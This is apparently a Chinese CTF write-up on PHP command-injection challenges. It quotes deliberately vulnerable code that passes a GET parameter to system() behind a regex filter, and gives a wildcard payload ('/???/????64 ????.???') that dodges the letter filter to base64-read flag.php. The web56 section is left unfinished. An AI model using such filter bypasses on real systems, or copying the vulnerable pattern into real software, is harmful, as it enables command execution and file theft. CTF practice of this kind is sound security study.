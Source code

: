 ```
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

由于过滤了字母，但没有过滤数字，我们尝试使用/bin目录下的可执行程序。

但因为字母不能传入，我们需要使用通配符?来进行代替

?c=/bin/base64 flag.php

替换后变成

?c=/???/????64 ????.???

谜语人滚出CTF！

还真的得到了base64编码，但这种纯靠猜的题目建议扔秦岭喂大熊猫



### web56(未完成)

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

它这次把数字也过滤了……



